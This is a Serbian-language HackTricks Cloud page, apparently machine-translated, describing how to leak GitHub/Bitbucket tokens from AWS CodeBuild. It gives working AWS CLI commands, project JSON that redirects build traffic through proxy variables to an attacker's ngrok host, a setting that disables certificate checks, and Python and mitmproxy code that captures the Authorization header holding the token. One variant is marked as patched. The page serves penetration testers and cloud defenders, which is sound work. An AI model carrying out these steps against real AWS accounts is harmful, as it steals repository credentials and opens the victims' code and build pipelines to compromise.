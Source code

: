 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Prvo, proverite da li postoje bilo akreditivi izvora koji su konfigurisani koje biste mogli da iscurite:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ako otkrijete da je autentifikacija, na primer, za Github postavljena na nalogu, možete **izvući** tu **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi određenu docker sliku** za pokretanje izgradnje projekta.

U tu svrhu možete **napraviti novi Codebuild projekat** ili promeniti **okruženje** postojećeg da postavite **Docker sliku**.

Docker slika koju možete koristiti je [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je vrlo osnovna Docker slika koja će postaviti **env promenljive `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Ovo će vam omogućiti da presretnete većinu saobraćaja hosta navedenog u **`https_proxy`** i **`http_proxy`** i verujete SSL CERT-u navedenom u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite svoju Docker MitM sliku**
* Pratite uputstva iz repozitorijuma da postavite svoju proxy IP adresu i postavite svoj SSL certifikat i **izgradite docker sliku**.
* **NE POSTAVLJAJTE `http_proxy`** da ne biste presreli zahteve ka metadata endpoint-u.
* Možete koristiti **`ngrok`** kao `ngrok tcp 4444` da postavite proxy na vaš host.
* Kada izgradite Docker sliku, **otpremite je na javni repo** (Dockerhub, ECR...)
2. **Postavite okruženje**
* Kreirajte **novi Codebuild projekat** ili **izmenite** okruženje postojećeg.
* Postavite projekat da koristi **prethodno generisanu Docker sliku**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proxy na vašem hostu**

* Kao što je navedeno u **Github repozitorijumu**, možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Verzija **mitmproxy koja je korišćena je 9.0.1**, prijavljeno je da sa verzijom 10 ovo možda neće raditi.
{% endhint %}

4. **Pokrenite gradnju i zabeležite akreditive**

*   Možete videti token u **Authorization** headeru:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Ovo se takođe može uraditi iz aws cli sa nečim poput

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projekti imaju podešavanje pod nazivom **`insecureSsl`** koje je skriveno na vebu i može se promeniti samo putem API-ja.\
Omogućavanje ovoga omogućava Codebuild-u da se poveže sa repozitorijumom **bez provere sertifikata** koji nudi platforma.

* Prvo treba da enumerišete trenutnu konfiguraciju sa nečim poput:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Zatim, sa prikupljenim informacijama možete ažurirati postavku projekta **`insecureSsl`** na **`True`**. Sledeći je primer mog ažuriranja projekta, obratite pažnju na **`insecureSsl=True`** na kraju (ovo je jedina stvar koju treba da promenite iz prikupljene konfiguracije).
* Pored toga, dodajte i env varijable **http\_proxy** i **https\_proxy** koje upućuju na vaš tcp ngrok kao: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Zatim pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označili proxy varijable (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Putem HTTP protokola~~

{% hint style="success" %}
**Ova ranjivost je ispravljena od strane AWS-a u nekom trenutku tokom nedelje 20. februara 2023. (mislim u petak). Tako da napadač više ne može da je zloupotrebi :)**
{% endhint %}

Napadač sa **povišenim dozvolama u CodeBuild-u mogao bi da iscuri Github/Bitbucket token** koji je konfigurisan ili ako su dozvole konfigurirane putem OAuth, **privremeni OAuth token korišćen za pristup kodu**.

* Napadač bi mogao dodati promenljive okruženja **http\_proxy** i **https\_proxy** u CodeBuild projekat koje upućuju na njegovu mašinu (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Zatim, promenite URL github repozitorijuma da koristi HTTP umesto HTTPS, na primer: `http://github.com/carlospolop-forks/TestActions`
* Zatim, pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označile proxy promenljive (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sada će napadač moći da koristi token sa svoje mašine, da izlista sve privilegije koje ima i (zlo)upotrebi lakše nego korišćenjem CodeBuild servisa direktno.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
